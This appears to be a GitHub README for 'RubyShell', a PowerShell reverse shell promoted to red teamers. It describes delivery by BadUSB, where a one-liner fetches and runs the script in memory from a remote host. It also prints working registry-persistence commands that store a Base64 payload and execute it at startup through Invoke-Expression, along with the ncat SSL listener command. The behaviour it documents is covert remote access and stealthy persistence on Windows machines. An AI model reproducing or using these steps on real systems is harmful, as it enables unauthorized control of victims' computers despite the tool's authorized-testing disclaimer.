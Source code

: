 # RubyShell
**RubyShell** is a lightweight, SSL-encrypted reverse shell written entirely in PowerShell with full memory-only execution and stealthy persistence. Designed for red teamers, it provides reliable, no-disk communication from target to operator using `ncat` as a listener.

> **Note:** RubyShell is for **educational and authorized security testing** only.

---

## Features

- **SSL Encryption** using `SslStream`
- **No-Disk Persistence** via Windows Registry
- **Memory-Only Execution** (avoids touching disk)
- **PowerShell Based** (built-in on Windows)
- **Retry Mechanism** if initial connection fails
- **BadUSB / Rubber Ducky Compatible Payloads**

---

## How It Works

1. A short payload (e.g., from a BadUSB device) runs a one-liner that gets and executes the RubyShell script in memory from a remote host.
2. The script attempts to connect to a remote server over TCP using SSL.
3. If the connection fails, it retries every 10 seconds.
4. Once connected, the server (e.g., `ncat --ssl -lnvp 9001`) receives an interactive shell.

---

## Persistence

RubyShell does not write to disk, but stores its Base64-encoded payload in the registry:

```powershell
New-Item -Path "HKCU:\Software\RubyShell"
Set-ItemProperty -Path "HKCU:\Software\RubyShell" -Name "EncodedCode" -Value "<BASE64_ENCODED_SCRIPT>"
```
Then executes on startup via:
```powershell
powershell -c "Invoke-Expression ([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String((Get-ItemProperty -Path 'HKCU:\Software\RubyShell' -Name 'EncodedCode').EncodedCode)))"
```

## Listener Setup
Start your listener with:
```bash
ncat --ssl -lvnp 9001
```

## Roadmap
[x] PowerShell client with SSL
[x] Registry-based persistence
[x] Retry connection loop
[ ] RubyShell Payload Generator (CLI Tool)
[ ] DuckyScript automation
[ ] GUI version for Generator

## Legal
This tool is for **educational** and **authorized penetration testing** only. Misuse of this software can result in criminal charges. The developers take **no responsibility** for unauthorized or malicious use.
